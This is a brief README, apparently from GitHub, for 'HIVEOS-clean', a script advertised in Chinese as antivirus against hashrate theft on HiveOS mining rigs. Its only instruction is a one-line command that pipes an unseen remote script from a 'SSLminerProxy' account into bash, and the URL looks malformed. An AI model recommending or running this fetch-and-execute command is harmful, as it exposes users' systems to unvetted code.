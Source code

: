 # HIVEOS-clean
HIVEOS强力杀毒，应对偷算力，官方杀毒无效，请使用这个
杀毒脚本  curl -s https://github.com/SSLminerProxy/HIVEOS-clean/new/main/clean.sh | bash
